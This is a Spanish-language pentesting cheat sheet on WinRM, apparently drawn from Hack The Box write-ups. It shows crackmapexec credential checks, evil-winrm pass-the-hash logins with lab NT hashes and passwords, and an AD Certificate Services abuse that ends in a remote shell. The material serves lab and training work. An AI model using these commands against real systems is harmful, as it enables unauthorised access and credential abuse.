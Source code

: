 # winrm-5985

# WINRM

## Validación de credenciales

```
crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'
```

## Autenticación por NT

```
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

## Autenticación por contraseña

```
evil-winrm -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5' -i 10.10.11.175
```

## Abuso Microsoft Active Directory Certificate Services

### Generar certificados con openssl

```
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr

You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:

Please enter the following 'extra' attributes
to be sent with your certificate request
A challenge password []:
An optional company name []:
```

Copio el csr y se lo proporciono al servicio

![https://rubbxalc.github.io/writeups/assets/img/Sizzle-htb/7.png](https://rubbxalc.github.io/writeups/assets/img/Sizzle-htb/7.png)

image

Descargo la clave pública y con `evil-winrm` me conecto a la máquina

![https://rubbxalc.github.io/writeups/assets/img/Sizzle-htb/8.png](https://rubbxalc.github.io/writeups/assets/img/Sizzle-htb/8.png)

image

```
evil-winrm -S -c amanda.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\amanda\Documents>
```